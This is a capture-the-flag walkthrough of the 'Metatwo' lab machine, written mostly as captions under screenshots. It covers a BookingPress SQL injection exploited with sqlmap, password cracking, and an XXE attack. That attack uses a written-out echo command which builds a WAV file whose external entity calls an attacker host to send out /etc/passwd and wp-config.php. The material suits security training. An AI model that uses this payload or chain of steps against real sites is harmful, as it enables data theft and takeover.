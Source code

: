 # Metatwo

We start by checking the connectivity with the machine:

![Untitled](Metatwo_imgs/Untitled.png)

And now we try to get all open ports:

![Untitled](Metatwo_imgs/Untitled%201.png)

We see ports 21(ftp), 22(ssh) and 80(http). Now we add the host to de /etc/hosts and access to the web.

![Untitled](Metatwo_imgs/Untitled%202.png)

We can see that it is a WordPress site:

![Untitled](Metatwo_imgs/Untitled%203.png)

We check the source code to discover what is using and discover that is using “bookingpress”:

![Untitled](Metatwo_imgs/Untitled%204.png)

BookingPress is a full-fledged appointment booking plugin that allows setting up a complete booking system according to your requirements on your WordPress website with super ease. The plugin fails to properly sanitize user supplied POST data before it is used in a dynamically constructed SQL query via the bookingpress_front_get_category_services AJAX action (available to unauthenticated users), leading to an unauthenticated SQL Injection. [https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357](https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357)

We need to capture the..

![Untitled](Metatwo_imgs/Untitled%205.png)

And modify it like:

![Untitled](Metatwo_imgs/Untitled%206.png)

With this we can launch sqlmap.

![Untitled](Metatwo_imgs/Untitled%207.png)

Now list all databases

![Untitled](Metatwo_imgs/Untitled%208.png)

![Untitled](Metatwo_imgs/Untitled%209.png)

And all the tables in blog database:

![Untitled](Metatwo_imgs/Untitled%2010.png)

![Untitled](Metatwo_imgs/Untitled%2011.png)

And now we dump wp_users

![Untitled](Metatwo_imgs/Untitled%2012.png)

![Untitled](Metatwo_imgs/Untitled%2013.png)

And now with jhon we can crack the password:

![Untitled](Metatwo_imgs/Untitled%2014.png)

And with this we are able to login: 

![Untitled](Metatwo_imgs/Untitled%2015.png)

For the exploitation, we need to create a WAV file which will fetch the another file called dedsec.dtd which has our malicious content inside.

```sql
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://10.10.XX.XX:9001/dedsec.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav
```

![Untitled](Metatwo_imgs/Untitled%2016.png)

We should host an http host in our machine and load the payload in the web, and when the payload is loaded we will receive connection to our web server that will load dedsec.dtd that will make a request to our server with the content of /etc/passwd in binary.

![Untitled](Metatwo_imgs/Untitled%2017.png)

Now we convert the binary to base64 

![Untitled](Metatwo_imgs/Untitled%2018.png)

With this credentials i don’t get nothing :’)

So now i will try to get wp-config.php, to do so we should modify the dedsec.dtd :

![Untitled](Metatwo_imgs/Untitled%2019.png)

An load the payload again to get:

![Untitled](Metatwo_imgs/Untitled%2020.png)

And again decode it:

![Untitled](Metatwo_imgs/Untitled%2021.png)

Now with this creds try to acces through ftp:

![Untitled](Metatwo_imgs/Untitled%2022.png)

Once in we discover a php file, that we will download:

![Untitled](Metatwo_imgs/Untitled%2023.png)

![Untitled](Metatwo_imgs/Untitled%2024.png)

Here we see “jnelson” creds and we will use it to log in using ssh

![Untitled](Metatwo_imgs/Untitled%2025.png)

And now get the user flag.

Also here we see: 

![Untitled](Metatwo_imgs/Untitled%2026.png)

And inside passpie we found a key file:

![Untitled](Metatwo_imgs/Untitled%2027.png)

We send this file to our machine:

![Untitled](Metatwo_imgs/Untitled%2028.png)

Now we convert the private key in jhon format:

![Untitled](Metatwo_imgs/Untitled%2029.png)

And crack it using wordlist:

![Untitled](Metatwo_imgs/Untitled%2030.png)

Now with the password we can get the passwords of passpie and export all the passwords:

![Untitled](Metatwo_imgs/Untitled%2031.png)

With the password dumped we are able to login as root and get the flag.